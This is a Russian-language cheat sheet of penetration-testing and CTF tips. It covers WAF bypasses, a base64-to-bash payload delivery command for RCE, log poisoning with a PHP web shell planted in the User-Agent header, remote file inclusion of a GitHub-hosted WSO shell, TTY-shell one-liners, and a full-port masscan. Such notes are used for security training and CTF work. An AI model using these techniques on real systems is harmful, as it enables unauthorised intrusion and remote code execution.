 # $ useful

strings <binfile> — отличная команда чтобы попытаться вытащить из бинарки что-то похожее на строки

[localtest.me](http://localtest.me) — альтернативная интерпретация localhost, доступная из интернета

Если WAF блокирует cat, можно использовать альтернативную команду more

[Cyberchef](https://gchq.github.io/CyberChef/) - многофункциональный швейцарский нож

Команда для поиска файлов по имени

```bash
find / -type f -iname '*flag*'
```

Команда для поиска содержимого:

```php
grep -rli "cdb{" /path/to/search
```

Не забывай про вайлдкарды при работе с путями: ‘var/www/html/’ для шелла то же самое что ‘var/w??/h???’. Они могут помочь обойти WAF

Улучшить revshell:

```bash
/usr/bin/script -qc /bin/bash /dev/null
```

ВСЕГДА используй базу-песочницу при составлении SQL инъекций

Burp Suite Pro запускается так:

```bash
java -jar burploader.jar
```

Для включения скроллинга TMUX (чтобы копировать с консоли выключи) — Ctrl + B + : set mouse on/off

Арендовать белый IP можно на [timeweb.cloud](http://timeweb.cloud)

Всегда проверяй директории на скрытые файлы:

```bash
ls -a
```

Если питон при установке зависимостей ругается на “externally managed requirement”, делай [так](https://builtin.com/articles/error-externally-managed-environment):

```bash
python3 -m venv ~/py_envs
source ~/py_envs/bin/activate
python3 -m pip install xyz
```

Листинг директории можно производить с помощью:

1. ls -lar
2. dir -lar
3. echo *

Проверить где находится бинарный файл:

```bash
which dir
```

Для передачи пейлоадов через RCE (аккуратно со спецсимволами типа +, они могут быть прочитаны и выполнены, например как пробел в этом случае):

```bash
echo <base64_payload> -n | base64 -d | bash
```

Прочитать содержимое файла нативным синтаксисом bash:

```php
echo "$(< filename.txt)"
```

Отправить запрос в Burp Suite Repeater: `Ctrl + Space`

Если есть RCE, но WAF фильтрует популярные простые команды типа id, стоит попробовать:

1. uname
2. whoami
3. env
4. ps aux
5. 5. netstat
6. echo

### Log Poisoning – мощный способ получить шелл из LFI.

Пример атаки: 

1. через LFI читаем файл логов того вебсервера, на котором работает приложение (чаще всего nginx / apache) 
2. ищем подконтрольный нам инпут, которой пишется в лог файл (например, User Agent) 
3. подставляем вредоносный код в подконтрольный инпут (например так – User-Agent: Mozilla<?php system($_GET[‘cmd’]); ?>
4. эксплуатируем (в нашем случае – передаем параметр cmd в LFI запросе к файлу лога и получаем вывод команды в файле лога)

### Public code publishers RFI

> Если приложение уязвимо к RFI, вместо персонального хостинга можно воспользоваться публичным репозиторием и передать URL к RAW файлу шелла ([https://github.com/Bearsec/web_shells](https://github.com/Bearsec/web_shells), передать RAW ссылку на wso.php, NOTE: wso легко детектится и является шумным шеллом, всегда лучше использовать минимальную нагрузку и разворачивать реверс шелл).
> 

### Список сервисов для размещения кода / шеллов

[GitHub - lorien/awesome-pastebins: List of pastebin services](https://github.com/lorien/awesome-pastebins)

### PHPFilterChain – мощный скрипт для эскалации через php фильтры

[GitHub - synacktiv/php_filter_chain_generator](https://github.com/synacktiv/php_filter_chain_generator)

Супермощный сканер портов (может проверить все порты хоста за минуты)

```bash
masscan -p1-65535,U1:65535 <target_ip> --rate=1000 -e <interface>
```

### **Spawning a TTY Shell**

- python -c 'import pty; pty.spawn("/bin/sh")'
- echo os.system('/bin/bash')
- /bin/sh -i
- perl —e 'exec "/bin/sh";'
- perl: exec "/bin/sh";
- ruby: exec "/bin/sh"
- lua: os.execute('/bin/sh')
- exec "/bin/sh"

Делая curl запрос и ожидая json в ответе, можно сделать пайп в утилиту `jq` и получить форматированный аутпут:

```bash
curl -s http://<SERVER_IP>:<PORT>/api.php/city/london | jq
```